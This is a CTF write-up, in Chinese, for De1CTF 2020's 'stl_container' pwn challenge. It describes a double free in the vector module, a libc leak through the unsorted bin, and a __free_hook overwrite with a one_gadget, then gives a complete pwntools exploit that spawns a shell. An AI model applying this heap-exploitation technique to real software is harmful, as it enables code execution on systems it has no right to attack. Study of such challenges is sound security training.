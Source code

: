 ﻿# 20200502_de1ctf

标签（空格分隔）： pwn

---

## stl_container

四个模块均可最多申请两块。申请流程都是，先申请一个堆块，然后内容转移到另一新申请堆块后，释放掉。
`vector`中第一次释放后指针未置零，存在`double free`。

## 解题思路
1. 申请满4个模块8个堆块，释放除`vector`外其他模块，加上申请时的工具堆块，一共7个堆块在`0xa0`的`tcache bin`里。
2. 再释放`vector_0`放入`unsorted bin`，就可以得到`libc_base`的地址。
3. 然后，将堆块统统申请出来，再两次释放`vector_0`，在`libc-2.27`中可以如此攻击。
4. 最后，劫持`free_hook`内容修改成`one_gadget`


## exp
```py
from pwn import *
import sys
import time
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "info"

filename = './stl_container'
elf = ELF(filename)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')# env 2.27

if len(sys.argv) == 1:
    p = process(filename)
else:
    p = remote(sys.argv[1], int(sys.argv[2]))

def sla(x, y):
    return p.sendlineafter(x, y)

def sa(x, y):
    return p.sendafter(x, y)

def add(type, content):
    sla('5. exit\n>> ',str(type))
    sla('3. show\n>> ', '1')
    sa('input data:', content)

def delete(type, index=0):
    sla('5. exit\n>> ',str(type))
    sla('3. show\n>> ', '2')
    if type == 1 or type == 2:
        sla('index?\n', str(index))

def show(type, index):
    sla('5. exit\n>> ',str(type))
    sla('3. show\n>> ', '3')
    if type == 1 or type == 2:
        sla('index?\n', str(index))
        pass



if __name__ == "__main__":
    for i in range(1,5):
        add(i, 'fish')
        add(i, 'fish')

    for i in range(3,5):
        delete(i)
        delete(i)

    delete(1, 0)
    delete(1, 0)
    delete(2, 0)
    show(2, 0)
    p.recvuntil('data: ')
    libc_base = u64(p.recv(6).ljust(8, '\x00'))-0x3ebca0
    print('heap: '+hex(libc_base))
    free_hook = libc_base + libc.sym['__free_hook']
    one_gadget = libc_base + 0x4f322
    print('free_hook: '+hex(free_hook))
    add(1, 'fish')
    add(1, 'fish')
    add(3, 'fish')
    add(2, 'fish')
    add(4, 'fish')
    add(3, 'fish')
    add(4, 'fish')
    delete(2, 0)
    delete(2, 0)
    add(2, p64(free_hook))
    add(2, p64(one_gadget))

    p.interactive()
```





